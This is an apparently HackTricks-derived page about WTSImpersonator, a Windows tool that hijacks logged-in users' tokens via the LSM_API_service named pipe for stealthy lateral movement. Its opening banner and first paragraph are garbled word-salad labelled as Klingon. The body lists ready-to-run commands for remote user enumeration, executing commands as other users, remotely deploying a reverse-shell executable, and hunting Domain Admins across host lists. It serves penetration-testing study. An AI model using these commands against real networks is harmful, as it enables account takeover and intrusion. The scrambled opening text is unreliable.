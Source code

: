 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>tlhIngan Hol</strong></summary>

**HackTricks** yIlo' **tlhIngan Hol**:

* **tlhIngan Hol** **HackTricks** **tlhIngan Hol** **pdf** **download** **'ej** **HackTricks** **advertised** **company** **want** **'oH** **SUBSCRIPTION PLANS** **[**ghItlh**](https://github.com/sponsors/carlospolop)** **Check**!
* **PEASS & HackTricks swag** **[**official PEASS & HackTricks swag**](https://peass.creator-spring.com)** **Get**
* **The PEASS Family** **[**The PEASS Family**](https://opensea.io/collection/the-peass-family)** **Discover**, **exclusive NFTs** **[**NFTs**](https://opensea.io/collection/the-peass-family)** **our collection** **[**NFTs**](https://opensea.io/collection/the-peass-family)**
* **Join** 💬 **Discord group** **[**Discord group**](https://discord.gg/hRep4RUj7f)** **telegram group** **[**telegram group**](https://t.me/peass)** **follow** **Twitter** 🐦 **[**@carlospolopm**](https://twitter.com/hacktricks_live)**.
* **Share** **hacking tricks** **PRs** **submitting** **HackTricks** **[**HackTricks**](https://github.com/carlospolop/hacktricks)** **HackTricks Cloud** **[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)** **github repos**.

</details>

**WTS Impersonator** **tool** **"\\pipe\LSM_API_service"** **RPC Named pipe** **exploits** **logged-in users** **enumerate** **stealthily** **tokens** **hijack** **traditional Token Impersonation techniques** **bypassing**. **networks** **within** **lateral movements** **seamless** **facilitates**. **technique** **behind** **innovation** **Omri Baso**, **work** **accessible** **[**GitHub**](https://github.com/OmriBaso/WTSImpersonator)** **credited**.

### **Core Functionality**
**API calls** **sequence** **tool** **operates**:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Key Modules and Usage
- **Enumerating Users**: Local and remote user enumeration is possible with the tool, using commands for either scenario:
- Locally:
```powershell
.\WTSImpersonator.exe -m enum
```
- Remotely, by specifying an IP address or hostname:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Executing Commands**: The `exec` and `exec-remote` modules require a **Service** context to function. Local execution simply needs the WTSImpersonator executable and a command:
- Example for local command execution:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe can be used to gain a service context:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Remote Command Execution**: Involves creating and installing a service remotely similar to PsExec.exe, allowing execution with appropriate permissions.
- Example of remote execution:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **User Hunting Module**: Targets specific users across multiple machines, executing code under their credentials. This is especially useful for targeting Domain Admins with local admin rights on several systems.
- Usage example:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
